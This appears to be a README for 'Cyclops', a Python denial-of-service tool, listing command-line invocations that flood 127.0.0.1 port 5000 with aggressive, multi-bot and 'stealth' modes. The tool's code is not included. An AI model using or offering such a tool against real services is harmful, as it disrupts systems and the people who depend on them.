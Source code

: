 # Cyclops

A simple DOS attack tool

### Requirements
Python 3.*x*.*x*
<br>

**Attack a localhost on port 5000**
```sh
$ python cyclops.py -i 127.0.0.1 -p 5000
```

**Attack a localhost on port 5000 aggressive mode**
```sh
$ python cyclops.py -i 127.0.0.1 -p 5000 -m A
```

**Attack a localhost on port 5000 with 256 bots**
```sh
$ python cyclops.py -i 127.0.0.1 -p 5000 -t 256
```

**Attack a localhost on port 5000 with 256 bots aggressive mode**
```sh
$ python cyclops.py -i 127.0.0.1 -p 5000 -t 256 -m A
```

**Attack a localhost on port 5000 with 256 bots stealth mode**
```sh
$ python cyclops.py -i 127.0.0.1 -p 5000 -t 256 -m S
```
